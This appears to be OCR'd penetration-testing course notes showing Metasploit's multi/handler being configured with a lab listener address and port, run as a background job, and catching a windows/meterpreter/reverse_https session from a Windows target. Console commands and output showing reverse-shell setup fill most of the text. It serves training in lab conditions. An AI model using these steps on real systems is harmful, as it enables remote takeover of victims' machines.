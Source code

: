  
msf5 exploit(multi/handler) > set LHOST 10.11.0.4

LHOST => 10.11.0.4

msf5 exploit(multi/handler) > set LPORT 443

LPORT => 443

msf5 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on https://10.11.0.4:443

• Note that using the exploit command without parameters will block the command prompt until execution finishes.

• In most cases, it is more helpful to include the -j flag to run the module as a background job, 

• allowing us to continue other work while we wait for the connection.

• The jobs command allows us to view running background jobs.

msf5 exploit(multi/handler) > exploit -j

[*] Exploit running as background job 1.
[*] Started HTTP reverse handler on https://10.11.0.4:443

msf5 exploit(multi/handler) > jobs

Jobs
====
 Id Name Payload Payload opts
 -- ---- ------- ------------
 0 Exploit: multi/handler windows/meterpreter/reverse_https https://10.11.0.4:443

msf5 exploit(multi/handler) > jobs -i 0

Name: Generic Payload Handler, started at 2019-08-16 07:23:22 -0400

msf5 exploit(multi/handler) > kill 0

[*] Stopping the following job(s): 0
[*] Stopping job 0

msf5 exploit(multi/handler) > 


• we can display information about it using the -i flag followed bythe job ID.
 
• In addition, we can terminate a job with kill followed by the job ID.

• At this point, the multi/handler is running and listening for an HTTPS reverse payload connection.
 
• Now, we can generate a new executable containing the windows/meterpreter/reverse_https payload, execute it on our Windows target, and our handler should come to life:

msf5 exploit(multi/handler) >

[*] https://10.11.0.4:443 handling request from 10.11.0.22; Staging x86 payload (18082
[*] Meterpreter session 3 opened (10.11.0.4:443 -> 10.11.0.22:51258)

msf5 exploit(multi/handler) >
